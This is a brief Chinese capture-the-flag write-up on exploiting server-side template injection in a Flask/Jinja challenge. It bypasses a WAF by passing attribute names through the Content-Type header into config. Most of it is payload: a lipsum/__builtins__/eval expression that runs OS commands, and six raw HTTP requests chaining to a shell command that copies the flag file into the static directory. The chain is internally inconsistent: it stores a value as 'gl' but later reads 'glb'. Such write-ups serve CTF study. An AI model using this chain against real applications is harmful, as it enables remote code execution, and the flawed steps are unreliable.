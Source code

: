 很明显的 SSTI，我们需要绕过一些过滤，看了一下发现 config 没有被过滤，所以我们可以用它来写入键值。

通过content-type传参来进行绕过waf

Payload：

```python
{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
```

```plaintext
GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(lip=a|attr(request.mimetype)))%}{%23 HTTP/1.1
Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
Content-Type: lipsum
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(gl=a.lip|attr(request.mimetype)))%}{%23 HTTP/1.1
Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
Content-Type: __globals__
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(get=request.mimetype))%}{%23 HTTP/1.1
Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
Content-Type: __getitem__
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(bui=request.mimetype))%}{%23 HTTP/1.1
Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
Content-Type: __builtins__
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(ev=request.mimetype))%}{%23 HTTP/1.1
Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
Content-Type: eval
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.glb|attr(a.get)(a.bui)|attr(a.get)(a.ev)(request.mimetype))%}{%23 HTTP/1.1
Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
Content-Type: __import__('os').popen('mkdir static;cat /flag_h3r3 > static/flag').read()
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
```
